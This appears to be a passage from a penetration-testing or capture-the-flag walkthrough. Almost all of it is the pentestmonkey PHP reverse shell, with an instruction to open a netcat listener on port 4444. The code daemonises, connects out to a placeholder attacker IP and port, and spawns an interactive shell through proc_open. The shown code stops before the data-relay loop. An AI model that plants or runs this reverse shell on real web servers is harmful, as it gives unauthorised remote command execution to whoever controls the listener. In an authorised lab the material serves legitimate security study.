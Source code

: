 We put ourselves in listening mode for the port assigned in the reverse shell in this case 4444 with netcat.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '<IP>';
$port = <PORT>;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
```
